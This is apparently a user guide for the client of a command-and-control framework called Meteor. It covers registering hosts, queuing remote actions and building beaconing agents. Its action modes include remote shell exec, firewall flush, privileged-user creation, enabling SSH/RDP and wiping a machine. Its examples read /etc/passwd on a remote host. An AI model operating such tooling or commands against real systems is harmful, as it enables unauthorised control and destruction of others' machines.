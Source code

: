 # Daddy Tops Client Guide
A quick reference for using Daddy Tops to interact with Meteor   

## General 
The Daddy Tops utility serves as the main avenue for interacting with the Meteor infrastructure. It has an interactive prompt for interacting with bots/actions/etc, as well as several command-line argument options for registering new hosts, user management, and setting the upstream DT server.   

## Acquiring the Client
When the docker containers are brought up, the latest DT will be compiled and hosted on via the Nest. They can be downloaded from the following locations:
```
Linux:  [nest_root]/files/dt/nix_dt.bin
Win:    [nest_root]/files/dt/win_dt.exe
```

Only DT versions for Linux and Windows automatically compiled, others can be built from the source located in `meteor/client/daddy_tops`.   

## Command-Line Options
 - `./dt --server <server_ip>:<port>` - will set the appropriate env variable to save the upstream server location  
 - `./dt --register-hosts <config.yml>` - parse a hosts yml file, register the host/group objects in the meteor backend. An example config file can be found at `meteor/client/daddy_tops/example_hosts.yml`  
 - `./dt --register-user` - follow the prompts to add a new user. This requires the admin password
 - `./dt --change-password` - follow prompts to update the password for an existing target user. Can be done by admin or the target user themself

## Interactive Prompt  
In order to access the interactive CLI, simply run `./dt` without any arguments and follow the login prompt. Afterwhich you will be dumped to the Daddy Tops shell: `DT>`. From here, the user has access to the following utilities:

```
CAPABILITY				SYNTAX
------------------------------------------------------------------------------------------

NEW ACTION:             action <%target_hostname%> <%mode_code%> <%arguments%>
NEW GROUP ACTION:       gaction <%target_groupname%> <%mode_code%> <%arguments%>
SHOW RESULT:            result <%uuid%>
LIST AVAILABLE <X>:     list <modes/hosts/host/groups/group/bots/actions> <OPT:%host%/%group%>
BUILD REQUEST:          build <agent/*>             
HELP MENU               help
QUIT PROMPT             exit
```

The "mode code" used for action creation must come from this list, more options coming in the future:

```
MODE    DESC                ARGS	
-------------------------------------
  1     shell exec          <shell command>
  2     firewall flush      N/A
  3     create priv user    <username>
  4     enable SSH/RDP      N/A
  F     nuke the box        N/A
```

So an example to queue up a new action against the host `8.8.8.8` would look like:
 ```
 action 8.8.8.8 1 cat /etc/passwd
 ```
In the above, the "shell" mode (`1`) is being used to cat the contents of a file, which can be later accessed by using the `result` command. Sometimes you may want to execute an action against an entire group of hosts. For that, use `gaction`:
```
gaction t1desktops 1 dir C:\Windows\ 
```
The above command will queue up a separate action for each host in the `t1desktops` group. Be careful when using shell exec group actions. Since the cmdlet will be run against all hosts in the group, if you pass a PowerShell command (used by Windows agents) to a group containing linux hosts, it will still try to run. While the errors shouldn't be fatal, it will fail to execute on those hosts.   

The `result` option is used to view the output of your actions. Simply pass in the action UUID as an argument and your client will display the collected output.   

The `list` option is used to view objects that are currently being tracked in the Meteor backend. Ex: use it to list all the currently tracked hosts/bots, all the actions you've queued, or all the available action modes.   

The `build` option will take you through an interactive prompt in order to build various meteor objects (currently only agent buildig is supported). You'll choose the agent type you want to build, target OS, beacon time, and a few other required configs. The output of the `build` command will be a Nest link to download the object. While agents are the only thing currently able to be compiled using DT `build`, future support for things such as droppers and other resources is planned.  
